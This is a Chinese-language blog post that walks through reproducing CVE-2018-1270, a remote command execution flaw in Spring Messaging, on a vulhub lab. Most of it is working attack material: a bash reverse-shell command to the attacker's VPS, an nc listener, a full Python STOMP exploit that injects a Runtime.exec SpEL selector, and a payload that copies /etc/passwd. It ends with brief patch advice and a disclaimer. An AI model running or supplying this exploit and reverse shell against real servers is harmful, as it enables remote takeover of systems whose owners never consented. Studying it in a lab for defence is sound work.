


# 漏洞复现-CVE-2018-1270-Spring Messaging 远程命令执行 - 铺哩 - 博客园

> 原文：[`www.cnblogs.com/cute-puli/p/15337178.html`](https://www.cnblogs.com/cute-puli/p/15337178.html)

# 0x00 实验环境

攻击机：Win 10

靶场：docker 拉的 vulhub 靶场

# 0x01 影响版本

Spring Framework 5.0 to 5.0.4

Spring Framework 4.3 to 4.3.14

# 0x02 漏洞复现

（1）访问页面时，是一个发消息的输入框：


（2）同理所述，首先对需要执行的命令执行编码：

```
bash -i >& /dev/tcp/vps 的 ip/7777 0>&1
```

（3）在网址：

```
http://www.jackson-t.ca/runtime-exec-payloads.html
```

 

（4）然后在自己的**vps**开启监听：

```
 nc -lvp 7777
```


（5）以下**红字**内容需要替换为你上面生成的**反弹 shell 的命令**：

```
#!/usr/bin/env python3
import requests
import random
import string
import time
import threading
import logging
import sys
import json

logging.basicConfig(stream=sys.stdout, level=logging.INFO)

def random_str(length):
    letters = string.ascii_lowercase + string.digits
    return ''.join(random.choice(letters) for c in range(length))

class SockJS(threading.Thread):
    def __init__(self, url, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
        self.daemon = True
        self.session = requests.session()
        self.session.headers = {
            'Referer': url,
            'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
        }
        self.t = int(time.time() * 1000)

    def run(self):
        url = f'{self.base}/htmlfile?c=_jp.vulhub'
        response = self.session.get(url, stream=True)
        for line in response.iter_lines():
            time.sleep(0.5)

    def send(self, command, headers, body=''):
        data = [command.upper(), '\n']

        data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))

        data.append('\n\n')
        data.append(body)
        data.append('\x00')
        data = json.dumps([''.join(data)])

        response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
        if response.status_code != 204:
            logging.info(f"send '{command}' data error.")
        else:
            logging.info(f"send '{command}' data success.")

    def __del__(self):
        self.session.close()

sockjs = SockJS('http://需要替换为你的 vps:8080/gs-guide-websocket')
sockjs.start()
time.sleep(1)

sockjs.send('connect', {
    'accept-version': '1.1,1.0',
    'heart-beat': '10000,10000'
})
sockjs.send('subscribe', {
    'selector': "T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')",
    'id': 'sub-0',
    'destination': '/topic/greetings'
})

data = json.dumps({'name': 'vulhub'})
sockjs.send('send', {
    'content-length': len(data),
    'destination': '/app/hello'
}, data)
```

（6）建议在**Pycharm**运行，因为本地直接运行会报错，如我下图所示：





执行成功后即可获取肉鸡的**shell**：

# 0x03 漏洞原理

（1）由于 `StandardEvaluationContext` 权限太大，可以执行任意 SpEL 表达式，所以官方在 `Spring 5.0.5` 之后添加了 `SimpleEvaluationContext`，用于实现简单的数据绑定，保持灵活性但不带来安全隐患。

（2）spring-messaging 提供了 STOMP 协议支持，允许客户端订阅消息，并使用 selector 去过滤消息：

```
selector = 'T(java.lang.Runtime).getRuntime().exec("cp /etc/passwd /tmp")'
stompClient = Stomp.client('ws://localhost:8080/hello')
stompClient.connect({}, function(frame) {
    stompClient.subscribe('/topic/greetings', function() {}, {
        "selector": selector
    })
});
```

（3）当你在订阅时，**spring** 会存储这个过滤器，并在客户端收到消息时触发：

```
2018-04-07 08:32:20 [clientInboundChannel-3] TRACE o.s.m.s.b.DefaultSubscriptionRegistry - Subscription selector: [T(java.lang.Runtime).getRuntime().exec("cp /etc/passwd /tmp")]

...

2018-04-07 08:32:21 [MessageBroker-2] DEBUG o.s.m.s.b.DefaultSubscriptionRegistry - Failed to evaluate selector: EL1001E: Type conver
sion problem, cannot convert from java.lang.UNIXProcess to boolean
```

# 0x04 修复建议

官方已经发布新版本修复了该漏洞，受影响的用户可升级至最新版本来防护该漏洞；或查看文档：https://blog.csdn.net/qsort_/article/details/105906256

# 0x05 参考文献

https://github.com/vulhub/vulhub/tree/master/spring/CVE-2018-1270

https://blog.csdn.net/qsort_/article/details/105906256

# 0x06 免责声明

本漏洞复现文章仅用于学习、工作与兴趣爱好，并立志为网络安全奉献一份力量，凡是利用本博客相关内容的无良**hackers**造成的安全事故均与本人无关！